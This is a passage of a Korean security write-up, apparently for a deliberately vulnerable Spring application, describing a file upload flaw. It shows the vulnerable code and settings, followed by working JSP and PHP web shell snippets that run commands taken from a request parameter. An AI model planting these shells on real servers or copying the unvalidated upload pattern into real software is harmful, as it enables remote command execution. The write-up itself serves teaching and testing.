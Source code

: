 
### 2. 파일 업로드 취약점

#### 📍 위치
- `PostController.createPost()` 메소드
- `post_form.html` 파일 업로드 폼

#### 🔍 취약한 설정
```java
// 1. 파일 확장자 검증 없음
String originalFilename = file.getOriginalFilename();
String fileExtension = originalFilename.substring(originalFilename.lastIndexOf("."));

// 2. 웹 접근 가능한 경로에 저장
private static final String UPLOAD_DIR = "src/main/resources/static/uploads/";

// 3. 파일 크기 제한이 너무 큼 (application.yml)
max-file-size: 100MB

// 4. 모든 파일 타입 허용 (HTML)
<input type="file" name="image"> <!-- accept 속성 없음 -->
```

#### 💥 공격 시나리오

**1) 웹쉘 업로드**
```
파일명: shell.jsp
내용:
<%
String cmd = request.getParameter("cmd");
Process p = Runtime.getRuntime().exec(cmd);
// ... 웹쉘 코드
%>
```

**2) PHP 웹쉘 (Apache + PHP 환경)**
```
파일명: shell.php
내용:
<?php
if(isset($_GET['cmd'])) {
    echo shell_exec($_GET['cmd']);
}
?>
```

**3) 악성 스크립트 업로드**
```
파일명: malicious.js
내용: 악성 JavaScript 코드
접근: http://localhost:8080/uploads/malicious.js
```
